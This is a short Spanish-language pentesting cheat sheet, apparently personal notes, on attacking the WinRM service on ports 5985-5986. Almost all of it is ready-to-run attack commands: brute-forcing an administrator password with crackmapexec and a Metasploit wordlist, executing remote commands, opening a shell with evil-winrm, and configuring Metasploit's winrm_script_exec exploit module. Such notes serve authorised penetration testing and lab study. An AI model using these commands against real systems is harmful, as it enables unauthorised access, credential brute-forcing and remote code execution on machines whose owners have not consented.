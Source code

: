 # WINRM (5985-5986)

Propietario: Adrian Gisbert Cabello

- Para logearnos a través de ***winrm***: podemos usar metasploit → `search winrm_login`
- Para hacer un ataque de fuerza bruta: `crackmapexec winrm 192.168.X.X -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
- Para ejecutar comandos (RCE): `crackmapexec winrm 192.168.X.X -u administrator -p password -x ¨COMANDO¨` (por ejemplo whoami, systeminfo)
- Para obtener una shell: `evil-winrm.rb -u administrator -p ‘password’ -i 192.168.X.X`
- Para mediante metasploit:
- `search winrm_script`
- `use exploit/windows/winrm/winrm_script_exec`
- `show options`
- `set RHOSTS`
- `set LHOSTS`
- `set FORCE_VBS true`
- `set USERNAME administrator`
- `set PASSWORD`